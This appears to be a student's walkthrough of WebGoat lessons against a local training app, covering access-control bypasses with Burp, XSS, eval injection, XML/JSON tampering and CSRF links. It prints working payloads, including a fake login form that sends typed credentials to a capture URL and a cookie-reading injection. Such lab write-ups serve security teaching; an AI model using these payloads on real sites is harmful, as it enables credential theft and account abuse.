

Webgoat
Access Control Flaws:
Using an Access Control Matrix

After trying what users are able to access account manager resource i found that the user Larry is able to do so.
Bypass a Path Based Access Control Scheme
For this one i decided to turn on burpsuite to easily change the file the webapp was trying to access. With some trial and error i found that the following request got me access to the required file by going back a few directories, going in WEB-INF and and getting me the spring-security.xml.
LAB: Role Based Access Control
Stage 1:


For this one the goal is to delete Toms profile as a regular employee. First i logged in as an admin to see the value for the "delete profile" button. Seeing it is “DeleteProfile” i logged in as normal employee and used burp to intercept the request to view toms profile and changed the action in the request from “ViewProfile” to “DeleteProfile”.
Stage 2: Dev Only
Stage 3:

Now the goal is to view another employees profile as a regular user. Using inspect element in the browser and looking closer at the form i can see a list of emplyees and IDs. As before i logged in as good old tom and intercepted the request to view profile using burp. From there i just changed the value of "employee_id" to Nevilles id (112).
Stage 4: Dev Only
AJAX Security
DOM Injection

As the goal for this was to enable the “Activate” button so i looked at the page source with the inspector again. Looking at it i saw the “disabled” attribute for the button so removing that allowed me to click the button and pass the lesson.
LAB: DOM-Based Cross-Site Scripting
Stage 1:
Goal being to deface this website with the provided image i took a look at the image source and simply put that in an image tag as follows:
<img src="http://localhost:8080/WebGoat/images/logos/owasp.jpg">
Stage 2:

To create a JavaScript alert using the image tag i simply used the “onerror” attribute like this:
<img onerror='alert("Hello World")'>
Stage 3:

This time having to use the iframe tag to create the JavaScript alert i created the tag and used the “onload” attribute to run JavaScript when the object is loaded as the name suggests:
<iframe onload="alert('Hello World')">
Stage 4:

Oddly enough Stage 4 just gives the answer right away. I belive that the point of the provided solution is to create a fake login form to steal users password utilizing XSS.
Stage 5: REquired to edit source so i skipped it
LAB: Client Side Filtering
Stage 1:

For this the goal was to find the CEOs salary as a user that has no access to that information. Looking at the page source as usual i found the user list with the options containing the employee IDs as a value attribute. Knowing from a previous challenge that Nevilles id is 112 i simply changed the value for the option “Tom Cat” to 112 and selected it from the dropdown menu to see Nevilles salary.
Stage 2:
This one required to modify the source code and since it was not required for the homework i was too lazy to actually mount the docker container. Guess thats it for Client Side Filtering.
XML Injection
Goal this time was to redeem more rewards that i could afford. After taking a moment of looking at the page source i decided to try to redeem the 3 rewards i could afford and intercept the request using burp. Looking at the request i could see that in the request data the options i chose were clearly labeled as check1001, check1002 and check1003 and had the value of “on”. From there i simply assumed that rest of the rewards would follow the same naming scheme so i simply added check1004 and check1005 with the value of “on” and forwarded the request completing the lesson.
JSON Injection

The instructions were to buy the non-stop flight for a cheaper price. I knew from the previous time i did this that it could have been done by modifying the page source but i decided to simply choose the non-stop flight and intercept the request using burp. Looking at the request i could see the price being specified in the “price2Submit” parameter as a value after the URL encoded $ sign. I changed the value to 000 and forwarded the request to complete the lesson.
Silent Transactions Attack


After trying to figure this one out i looked at the hints and they were suggesting to navigate to 'javascript:submitData(1234556,11000);' but for whatever reason i didnt get that to work. I tried to make sure that running the function in the console actually completes the challenge and it did. Out of curiosity it intercepted the request it made and saw the full URL it was navigating to. Seems like putting this
“localhost:8080/WebGoat/attack?Screen=218322538&menu=400&from=ajax&newAccount=1234556&amount=11000&confirm=Confirm” into the browser also completes the challenge. I assume the point of this was to create a malicious link that steals your money if you are logged in so im not sure if i was supposed to put JavaScript into the link.
Insecure Client Storage
Skipped (FireBug)
Dangerous Use of Eval

To find the eval function i tried putting a single quote in access code field and tried clicking the purchase button. This didnt return a pop-up like it should so after taking a peek at the hints i tried entering:
asd');alert(document.cookie);('
Same Origin Policy Protection

Simply entered the provided link: https://www.google.com/search?q=aspect+security
Authentication Flaws
Skipped this one
Buffer Overflow
Off-by-One

To do this one i started by filling all fields with loads of "A"s. After submitting and accepting the terms i was asked to provide the name of the VIP to complete the lesson so after a while of thinking i took a look at the hints and finally figured out to look for the hidden fields on the last page. Took a couple tries to figure out that John Smith was the VIP.
Code Quality
Discover Clues in the HTML
As the name suggests there is there is something in the page source. Took a quick look and found credentials.
Concurrency
Thread Safety Problems
The instructions for this lesson talked about concurrency, using two browsers and gave two usernames so i opened the page in another tab and logged in with both users as fast as possible and completed this lesson.
Shopping Cart Concurrency Flaw


In this lesson i started by trying something similar to what i had to do in the previous lesson but eventually had to look at a few hints and figured out that i can update the cart when im in the next window to pay a diffrent price than what i was supposed to pay. Instead of opening two browsers i decided to use burp to send the Update Cart request. After intercepting the request to update i sent it to repeater so i can use it when i need to. I added a bunch of item to the shopping cart and clicked on “purchase” then in the update cart request i modified the amount of items in my cart to 1, sent the request and confirmed the purchase only to be greeted with a message saying i am on the right track but actually overpaid by 1102899%... Oops... So apparently updating the cart updates the quantity of items in the shopping cart so i went back and chose a lower quantity in the browser and larger quantity in burp to pass this lesson.
XSS
Stored with XSS
This lesson required for me to create a XSS script. To do this i went back to take a look at how i DOM-Based XSS/Stage4 and tried to use that to complete this lesson with something like this:
<input type = "password" name="pass"/><button onClick='javascript:window.location.assign("http://localhost:8080/WebGoat/capture/PROPERTY=yes&"+pass.value);'>Submit</button>
Somehow that worked out but when i tried to do it again to get a screenshot of the popup i got it didnt actually work. I tried to make it work for a while but ended up looking at the hints one at a time and after i finally figured out i have to close the form tag before my payload i completed the lesson with this:
</form><script>function hack(){ XSSImage=new Image; XSSImage.src="http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user="+document.phish.user.value + "&password=" + document.phish.pass.value + "";alert("asdasd");}</script><form name="phish"><br><p>Username: </p><input type="text" name="user"><br><p>Password: </p><input type="password" name="pass"<br><input type="submit" name="login" value="login" onClick="hack()"></form>
Stored XSS Attacks

To complete this i added a simple JavaScript alert in the message:
<script>alert("asdasd")</script>
LAB: Cross Site Scripting
Stage 1: Stored XSS
The goal was to login as tom and create a script in the Street fiel so i did. After that i logged in as Jerry and viewed Toms profile to verify it worked and completed the lesson
Stage 2: Dev Only
Stage 3: Stored XSS Revisited
Only had to view Bruces profile as David
Stage 4: Dev Only
Stage 5: Reflected XSS
As the instructions said i went to the seach staff page and made a simple script:
<script>alert("asd")</script>
I didnt actually have to validate a malicious link as another user so i moved on.
Stage 6: Dev Only
Reflected XSS Attacks


Again added a simple script and completed the lesson. Only this time a bothered validating that i can craft a maliciuos link out of it by intercepting the request and adding the data to the URL like this:
http://localhost:8080/WebGoat/start.mvc#attack/1406352188/900?QTY1=1&QTY2=1&QTY3=1&QTY4=1&field2=4128+3214+0002+1999&field1=%3Cscript%3Ealert(%22asd%22)%3C%2Fscript%3E&SUBMIT=Purchase
Cross Site Request Forgery
This time the goal is to create a malicious link that has src, menu and transferFunds parameters. I intercepted the request with burp, modified the data according to the instructions, created the following link out of it and passed the lesson:
http://localhost:8080/WebGoat/start.mvc#attack/2078372/900?scr=2078372&menu=900&transferFunds=9001&title=asd&message=asd&SUBMIT=Submit
CSRF Prompt By-Pass
For this i started by doing the same thing as last time but after to the initial link i changed transferFunds value to CONFIRM as instructed and completed the lesson
CSRF Token By-Pass
Again i started by crafting the malicious link except this time set the transferFunds value to “main”. Going to the link i was given a “Submit Query” button which i pressed, intercepted the request and got the CSRF Token. Then i only had to modify the value of tranferFunds to a number and forward the request to pass the lesson.